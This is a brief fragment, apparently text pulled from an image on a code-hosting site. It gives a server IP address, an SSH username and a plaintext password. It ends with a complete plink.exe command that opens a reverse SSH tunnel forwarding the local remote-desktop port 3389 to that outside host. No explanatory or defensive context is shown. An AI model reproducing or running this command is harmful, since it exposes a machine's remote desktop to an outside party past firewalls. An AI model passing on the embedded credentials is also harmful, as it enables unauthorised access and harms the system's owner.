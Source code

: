 **Server IP**: 136.130.190.181
**Port**: 3389
**Connection type**: ssh
**Username**: $had0w
**Password**: thruthW!llS3tUfree

**Full command**: plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181